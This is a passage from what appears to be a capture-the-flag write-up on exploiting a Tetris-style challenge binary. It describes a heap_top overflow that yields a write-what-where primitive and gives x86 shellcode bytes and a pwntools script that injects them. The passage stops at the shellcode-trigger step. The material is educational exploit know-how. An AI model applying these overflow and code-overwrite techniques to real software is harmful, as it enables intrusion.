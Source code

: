 Doing this would give us a full write-what-where primitive. 

## Shellcoding to Victory
Now that we have the full primitive, it's time to finish this challenge up with shellcode that calls `log_hw` with the hacking constant. 

As a review here is the plan of the first part of our exploit:
1. Initialize the `heap_top` to `0x400202` using the overflow
2. Get `7` high scores back to back while writing no name
   1. This increments `heap_top` to `0x40021e`
3. On the 7th, write the name `\x50` to the `heap_top` (for the jump)

Now all we need to do is overwrite some other code with shellcode to call the `hw_log()`. Ah, why not just overwrite `heck_high_score()`, since we already have a tetromino setup to get there (`0x400202`). Once we are there, we just need to overwrite the location with some simple code:
```c
mov edi, 0x41414141
call $+0xb6c
nop
nop

// hw_log(0x41414141)
// "\xBF\x41\x41\x41\x41\xE8\x67\x0B\x00\x00\x90\x90"
```

So to complete our plan, it looks like this:

1. Initialize the `heap_top` to `0x400202` using the overflow
2. Get `7` high scores back to back while writing no name
   1. This increments `heap_top` to `0x40021e`
3. On the 7th, write the name `\x50` to the `heap_top` (for the jump)
4. Reinitialize the `heap_top` to `0x400202` using the overflow
5. Write the Shellcode
6. Get a high score (to trigger the Shellcode)

Let's put it all together and get that flag!

```python
## Activate Cheat Mode
p.sendline("\nw w w w w w w w \n\nw w w w w w w \n\nw w w w w w w w \n\nw w w w w w w w \n\ncaaaaaadw w w w w w w w w \n\nw w w w w w w w\n\naaaaaadd dwd caaaad aaddda daadwd dddd aaddw aaa ddaacd aadcaaw d awa daaw aw  awa daa dad aaawd w w w \n\naaaaaadd dwd dddd aaa  aacddddd dddddaaa aaacw  aaa awa awa wdd daaawww dw waa awaaaa caaaaaawa ddddd  w w w\n")

## Initialize heap_top to 202
p.sendline("JaaaaawwwO" + "s"*18 + "Ja w w w w w w w \n\n\n\n")
p.sendline("\n\n")

## Increment to 212
for i in range(6):
    new_hs()
new_hs(skip=True)

## Overwrite the jump
p.sendline("\x50\n")

## Reinit heap_top to 202
p.sendline("JaaaaawwwO" + "s"*18 + "Ja w w w w w w w \n\n\n\n")
p.sendline("\n\n")

## Write Shellcode
new_hs(skip=True)
#p.sendline("\n")
p.sendline("\xBF\x41\x41\x41\x41\xE8\x67\x0B\x00\x00\x90\x90\n")

## Call Shellcode
```